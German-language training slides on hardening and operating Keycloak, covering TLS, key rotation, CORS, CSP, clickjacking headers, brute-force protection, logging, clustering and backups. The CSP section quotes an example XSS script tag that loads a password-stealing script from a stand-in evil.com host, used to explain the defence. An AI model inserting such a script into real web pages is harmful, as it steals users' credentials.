







# Modul 10

## Betrieb, Sicherheit & Best Practices

---

## Lernziele

Nach diesem Modul kannst du:

- Die notwendigen Schritte zur **Absicherung einer Keycloak-Instanz** benennen.
- **HTTPS**, **Hostname-Validierung** und **Key Rotation** konfigurieren.
- **Web-Security-Header** (CORS, CSP) verstehen und anpassen.
- **Brute-Force-Detection** aktivieren und **Audit-Logs** nutzen.
- **Clustering**, **Caching** und **Backup-Strategien** verstehen.
- Eine vollständige **Produktions-Checkliste** erstellen.

---

## 1.1 HTTPS & Hostname

**HTTPS ist Pflicht!**

- Keycloak sollte **nie** ohne HTTPS in Produktion laufen.
- **Reverse Proxy:** TLS-Termination am Proxy (Nginx, HAProxy, Ingress) oder Passthrough.
- **Hostname:** Setze `hostname-url` strikt, um Host-Header-Attacks zu verhindern.

```bash
# Beispiel: Keycloak mit festem Hostname starten
bin/kc.sh start --hostname=auth.example.com --https-certificate-file=...
```

---

## 1.1 Sicherheitsarchitektur im Überblick



---

## 1.2 Key Rotation

**Signaturschlüssel regelmäßig rotieren** (Realm Settings → Keys)

- Keycloak signiert Tokens mit RSA/EC-Schlüsseln.
- **Automatische Rotation:** Keycloak erstellt neue Keys, behält alte für Validierung.
- **Manuelle Rotation:** Bei Verdacht auf Kompromittierung sofort neue Keys generieren.

**Best Practice:**

- Rotation alle 90 Tage
- Alte Keys nicht sofort löschen (laufende Tokens müssen noch validiert werden)

---

## 1.2 Key Rotation: Timeline



---

## Exkurs: Was ist CORS?

**Problem:** Browser blockieren Requests zu anderen Domains (Same-Origin-Policy).

Deine App auf `app.example.com` möchte Keycloak auf `auth.example.com` aufrufen → **Blockiert!**

**Lösung:** Der Server sendet **CORS-Header**, die bestimmte Origins erlauben.

```http
Access-Control-Allow-Origin: https://app.example.com
```

> **Merke:** CORS schützt den **User**, nicht den Server. Der Server entscheidet, wer zugreifen darf.

---

## Exkurs: CORS visualisiert



---

## Exkurs: Was ist CSP?

**Problem:** XSS-Angriffe (Cross-Site Scripting) – Angreifer injiziert Schadcode.

```html
<script src="https://evil.com/steal-passwords.js"></script>
```

**Lösung:** **Content Security Policy** – Server definiert, welche Ressourcen erlaubt sind.

```http
Content-Security-Policy: script-src 'self' https://trusted.com;
```

→ Browser führt nur Scripts von erlaubten Quellen aus!

---

## Exkurs: CSP visualisiert



---

## Exkurs: Was ist Clickjacking?

**Angriff:** Angreifer bettet deine Login-Seite **unsichtbar** in seine Website ein.

- User denkt, er klickt auf "Gewinnspiel"
- Klickt in Wirklichkeit auf versteckten "Geld überweisen"-Button

**Lösung:** Header verbieten das Einbetten in fremde Seiten.

```http
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self';
```

---

## Exkurs: Clickjacking visualisiert



---

## 2. Web Security in Keycloak

**CORS konfigurieren** (Clients → dein Client → Web Origins)

- Trage deine App-Domains ein: `https://app.example.com`
- **Niemals** `*` in Produktion verwenden!

**CSP**

- Keycloak setzt automatisch strikte CSP-Header
- Bei Custom Themes ggf. in `standalone.xml` anpassen

**Clickjacking-Schutz**

- `X-Frame-Options: SAMEORIGIN` ist Default
- Keine Konfiguration nötig – Schutz ist aktiv!

---

## 3. Brute-Force-Schutz

Schützt gegen das Erraten von Passwörtern.
(Realm Settings → Security Defenses → Brute Force Detection)

- **Failure Factor:** Anzahl erlaubter Fehlversuche (z.B. 5).
- **Wait Increment:** Wartezeit nach Sperrung (z.B. 1 Minute).
- **Quick Login Check:** Verhindert schnelle Skript-Angriffe (Milli-Sekunden-Takt).
- **Action:** Account temporär sperren (Temporary Lock) oder dauerhaft.

> **Wichtig:** User müssen entsperrt werden (via Admin Console → User → Unlock User).

---

## 3. Brute-Force-Schutz: Ablauf



---

## 4. Logging & Auditing (Events)

Keycloak bietet detaillierte Protokolle (Realm Settings → Events).

### Login Events

- Protokolliert An- und Abmeldungen, Errors (z.B. `INVALID_PASSWORD`).
- **Speicherdauer:** Konfiguriere "Expiration", damit die DB nicht vollläuft!

### Admin Events

- Protokolliert alle Änderungen durch Administratoren (z.B. "Client erstellt", "Rolle gelöscht").
- Wichtig für Compliance und Nachvollziehbarkeit ("Wer hat was wann geändert?").

---

## 5. Datenbank & Caching

### Datenbank

- Das Nadelöhr! Enthält alle User-Daten und Hashes.
- Nutze einen robusten DB-Server (PostgreSQL empfohlen).
- **Firewall:** DB darf nur vom Keycloak-Server erreichbar sein.
- **Encryption at Rest:** Verschlüsselung auf Dateisystem-Ebene.
- **Encryption in Transit:** Keycloak ↔ DB Verbindung per SSL/TLS.

### Caching (Infinispan)

- Keycloak cacht User, Sessions, Realms im RAM.
- **Distributed Cache:** Notwendig im Cluster.

---

## 6. Clustering & Load Balancing

Um Ausfälle zu vermeiden, nutze mehrere Instanzen (Nodes).

- **Discovery:** Nodes müssen sich finden (Standard: JGroups Multicast/UDP. In Cloud/K8s: DNS_PING/TCP).
- **Load Balancer:** Verteilt Traffic.
- **Sticky Sessions:** Wichtig für Performance! Der Load Balancer sollte User basierend auf
  `AUTH_SESSION_ID` Cookie immer zum selben Node schicken (vermeidet unnötige
  Cache-Replikation).

---

## 6. HA-Architektur: Überblick



---

## 7. Backup & Restore

Keycloak speichert fast alles in der DB.

1. **Datenbank-Backup:** Regelmäßige Dumps (pg_dump). Konsistenz beachten!
2. **Config:** Sichere `keycloak.conf` und Keystores/Zertifikate.
3. **Realm Export:** (Optional) Nutze `kc.sh export` als JSON-Backup der Konfiguration
   (ohne User-Hashes/Sessions). Gut für Disaster Recovery in neue Versionen.

> **Wichtig:** Teste das Restore regelmäßig auf einem Testsystem!

---

## 8. Monitoring

Was sollte überwacht werden?

- **JVM Metriken:** Heap Usage, GC Time.
- **DB Connection Pool:** Active/Idle Connections.
- **Keycloak Metrics:**
  - Login Errors (Indikator für Angriffe/Probleme).
  - Response Times.
- **Health Checks:** `/health/live` und `/health/ready` (für Kubernetes/Load Balancer).
